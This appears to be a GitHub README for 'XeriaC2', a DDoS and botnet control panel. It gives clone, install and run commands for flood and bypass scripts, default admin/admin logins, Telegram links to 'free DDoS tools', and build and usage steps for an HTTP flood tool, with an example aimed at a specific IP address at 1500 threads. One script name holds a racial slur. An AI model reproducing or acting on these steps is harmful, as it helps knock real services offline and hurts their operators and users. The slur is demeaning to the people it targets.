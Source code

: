 ## Setup/Install
```sh
Cloud Shell : https://shell.cloud.google.com/?show=ide%2Cterminal

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

node auto_install_modules.js 404.js HTTP-NIGGA,js BYPASS.js holdv2.js Tlsv1.js

python xeriac2.py

```

## Login 
Username : admin
Password : admin

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500

**PLEASE STAR WITH YOU SUPPORT ME**


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
